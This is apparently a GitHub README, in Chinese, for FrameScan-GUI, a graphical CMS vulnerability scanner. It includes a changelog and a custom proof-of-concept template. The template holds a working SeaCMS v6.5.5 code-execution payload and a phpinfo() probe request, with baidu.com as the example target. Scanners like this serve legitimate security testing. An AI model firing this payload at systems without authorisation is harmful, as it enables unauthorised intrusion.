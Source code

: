 # FrameScan-GUI

## 工具简介
FrameScan-GUI是一款python3和Pyqt编写的具有图形化界面的cms漏洞检测框架，是[FrameScan](https://github.com/qianxiao996/FrameScan) 的加强版。支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。
#### 下载地址：https://github.com/qianxiao996/FrameScan-GUI/releases

## 支持平台

- Windows  


### 使用方法

下载本项目，运行exe即可。

![1](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/1.jpg)

![2](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/2.jpg)

## 更新日志

#### 2020-04-07 v1.2.1

优化显示插件的颜色
修复增加插件未定义问题
更新POC

#### 2020-04-05 v1.2

1、修复菜单栏开始扫描
2、增加选择线程
3、开始扫描后设置按钮不可点击，结束后恢复
4、修复若干bug
5、优化程序代码
6、使用QSS来美化界面

#### 2019-10-29  v1.1

初始提交

## 自定义POC模板

以下为POC模板，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请更改result内容，result[0]为漏洞名称,result[1]为返回的内容，result[2]为测试结果
        result = ['seacms v6.5.5代码执行漏洞','','']
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            data = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if data.status_code == 200 and 'phpinfo' in data.text:
                result[2]= "存在"
                result[1] = "URL:%s\nPOST:%s"%(url_path,payload)
            else:
                result[2] = "不存在"
        except Exception as e:
            # print (e)
            result[2] ="未知"
            #这里可设置未知，连接超时等，只有不存在不会显示到结果中。
        return result
        #最后一定要返回一个带有3个参数的列表。不然会出错误。

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    print(testVuln.run())
```

## 鸣谢

POC多数来源于[AngelSword](https://github.com/Sch01ar/AngelSword)
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**



## 使用问题

### 问题一

![3](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/3.png)

将Qt安装目录下的platforms文件夹复制到exe程序目录。若风格不同，复制styles文件夹到程序目录。

### 问题二

若出现以下提示模块不存在，请pip安装模块或在Plugins.py中注释掉该行。

![4](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/4.png)

```
pyinstaller -D -w FrameScan-GUI.py -i img/main.ico
```
